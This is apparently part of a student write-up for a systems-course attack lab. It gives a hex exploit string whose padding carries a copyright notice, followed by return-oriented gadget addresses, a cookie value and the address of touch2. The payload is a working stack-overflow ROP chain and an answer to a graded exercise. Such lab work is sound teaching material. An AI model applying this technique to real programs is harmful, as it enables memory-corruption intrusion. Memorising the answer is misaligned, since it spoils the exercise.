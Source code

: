 ## 整体思路
c2 a9 20 32 30 31 39 20
43 6f 70 79 72 69 67 68
74 20 48 61 6b 75 6c 61
2c 20 43 43 20 42 59 2d
4e 43 2d 53 41 20 00 00             /* 40 bytes of trash            */
cc 19 40 00 00 00 00 00             /* popq   %rax                  */
fa 97 b9 59 00 00 00 00             /* the value of cookie          */
a2 19 40 00 00 00 00 00             /* movq   %rax,%rdi             */
ec 17 40 00 00 00 00 00             /* the address of touch2        */
